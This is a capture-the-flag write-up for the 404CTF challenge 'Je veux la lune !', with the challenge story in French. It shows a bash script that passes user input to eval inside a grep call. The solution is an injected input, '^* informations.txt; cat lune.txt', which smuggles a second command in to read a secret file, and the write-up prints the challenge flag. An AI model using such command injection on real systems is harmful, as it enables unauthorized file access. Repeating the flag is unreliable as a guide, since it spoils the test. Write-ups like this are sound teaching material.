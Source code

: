 # Binary / Je veux la lune !

## Challenge
Caligula est assis seul devant une table du café. Il y a devant lui 5 tasses vides empilées, et une 6e qu'il sirote lentement, ainsi qu'un ordinateur qu'il regarde fixement. Des cernes profonds creusent son visage. Il lève des yeux étonnamment vifs vers vous alors que vous vous approchez de lui.

Il tend sa main vers son écran d'un air désespéré et s'exclame « Je ne peux plus vivre comme ça, ce monde n'est pas supportable. J'ai besoin de quelque chose de différent. Quelque chose d'impossible, peut-être le bonheur, ou peut-être la lune... Et je sens que ma quête s'approche de sa fin. »

Vous regardez son écran, et voyez qu'il tente d'accéder sans succès à un fichier.

« Vous pensez que je suis fou, mais je n'ai jamais pensé aussi clairement ! » Un calcul rapide vous informe qu'il a probablement consommé plus d'un litre de café, et il n'est que 13h. Vous acquiescez lentement. Il reprend « Regardez, Hélicon m'a enfin rapporté la lune, mais il ne m'a pas donné l'accès... le fourbe. Je brûlerai un quart de sa fortune plus tard pour le punir. Aidez-moi ! »

> Entre peur et pitié, vous décidez de l'aider à obtenir le contenu du fichier secret.

## Inputs
- server at challenges.404ctf.fr:31215
- bash script: [donne_moi_la_lune.sh](./donne_moi_la_lune.sh)


## Solution
Here's the interesting part in the bash script:

```python
echo "Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?"
read personne
eval "grep -wie ^$personne informations.txt"
```

We need to abuse `grep -wie ^$personne informations.txt` in order to dump `lune.txt`.

Easily done by entering `^* informations.txt; cat lune.txt` for instance, to dump both files and get the flag:

```console
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
^* informations.txt; cat lune.txt








404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}
Caligula, tu es le PDG de Imperium Romanum Enterprises, tu devrais le savoir...

Caius c'est toi ! Caligula !
(...)
```

## Flag
404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}

